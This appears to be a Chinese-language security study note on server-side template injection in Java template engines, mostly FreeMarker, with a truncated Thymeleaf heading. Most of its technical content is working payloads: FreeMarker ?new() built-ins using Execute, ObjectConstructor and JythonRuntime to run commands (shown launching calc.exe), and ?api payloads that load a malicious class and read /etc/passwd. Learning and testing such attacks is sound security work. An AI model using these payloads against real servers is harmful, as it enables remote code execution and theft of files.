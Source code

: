 ## 概述

1. `FreeMarker` 
	1. 上传模板（任意文件上传 --- spring 不解析jsp 但如果能上传模板则就可以进行组合拳）
	2. 修改模板（文件操作）
2. `Thymeleaf`
3. `Velocity`

## FreeMarker

- `2.3.30`

![](media/Pasted%20image%2020250508230035.png)  
### 关注功能点
>Freemarker 无法接受用户的输入 Pyaload 进行攻击，也就是我们直接传参进行攻击，因为会有转码等操作。所以我们更关心以下功能点：
- 上传模板（任意上传文件）
- 修改模板（修改的模板中注入payload）



### 漏洞Payload
#### new内建函数
- https://paper.seebug.org/1304/#liferay-freemarkerssti 
- 三个类可以执行任意代码（可以分析类）
```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>//@value为自定义标签
```

#### api内建函数
- https://paper.seebug.org/1304/
```java
加载恶意类
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}



读取任意文件

<#assign uri=object?api.class.getResource("/").toURI()><#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()><#assign is=input?api.getInputStream()> FILE:[<#list 0..999999999 as _> <#assign byte=is.read()><#if byte == -1> <#break> </#if> ${byte}, </#list>]
```

- https://teamssix.com/211203-200441.html#toc-heading-4


## Thymeleaf

- 3.0 -- 3.0.11
- 